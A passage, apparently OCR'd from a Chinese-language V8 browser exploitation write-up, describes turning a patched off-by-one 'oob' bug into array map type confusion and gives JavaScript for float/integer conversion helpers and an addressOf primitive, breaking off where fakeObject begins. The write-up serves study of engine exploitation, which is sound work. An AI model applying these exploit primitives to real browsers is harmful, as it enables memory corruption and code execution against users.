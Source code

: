 ```
            |  Properties |       |
            +-------------+       |
            |  Elements   +-------+
            +-------------+
            |  Length     |
            +-------------+
            |     ...     |
            +-------------+
```



#### 利用思路

通过patch 的off-by-one漏洞可以修改array对象的map，即对象的类型，构造出类型混淆漏洞。如：

```
var a = [1.1];
a.oob();  得到a[1]的值，越界读取map的值 
a.oob(0xdeadbeef); 越界写map的值，即a[1]=0xdeadbeef,将map的值改写成0xdeadbeef
```

（1）构造addressOf和fakeObject原语

- addressOf 原语用于泄露任意传入的object对象地址。
- fakeObject 原语将传入的地址解析成一个object指针返回。

```javascript
var buf = new ArrayBuffer(16)
var float64 = new Float64Array(buf)
var bigUint64 = new BigUint64Array(buf)

function f2i(f) // 将浮点数转成整数
{
	float64[0] = f;
	return bigUint64[0];
}

function i2f(i) // 将整数转成浮点数
{
	bigUint64[0] = i;
	return float64[0];
}
//两个数组操作同一片内存，实现64位浮点数与64位整数之间的转换
function hex(i)
{
	return i.toString(16).padStart(16, "0");
}

var obj = {"a": 1};
var obj_array = [obj];
var float_array = [1.1];

var obj_array_map = obj_array.oob();
var float_array_map = float_array.oob();

function addressOf(obj) // obj -> float addr
{
	obj_array[0] = obj;
	obj_array.oob(float_array_map);// 将obj_array类型变成float型
	
	var object_addr = obj_array[0];// 这样就会将第一个对象地址当成浮点数输出
	obj_array.oob(obj_array_map); // 将obj_array类型复原
	return f2i(object_addr)-1n; // 得到的是指针，所以需要减1才是真实地址
}
//如果未将obj_array类型变成float型，直接输出，输出的是 0x7ff7ffffffffffff。
function fakeObject(addr) // float addr -> obj
```